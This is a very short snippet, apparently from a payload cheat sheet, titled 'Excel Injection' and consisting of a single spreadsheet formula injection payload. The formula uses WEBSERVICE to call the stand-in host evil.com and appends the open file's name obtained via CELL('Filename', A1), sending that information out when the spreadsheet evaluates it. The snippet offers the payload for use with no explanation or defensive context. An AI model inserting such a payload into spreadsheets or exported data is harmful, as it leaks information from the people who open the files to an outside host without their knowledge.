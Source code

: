 # Excel Injection

Inject into excel formulas: 
```
"&WEBSERVICE("http://evil.com/"&CELL("Filename",A1))&"
```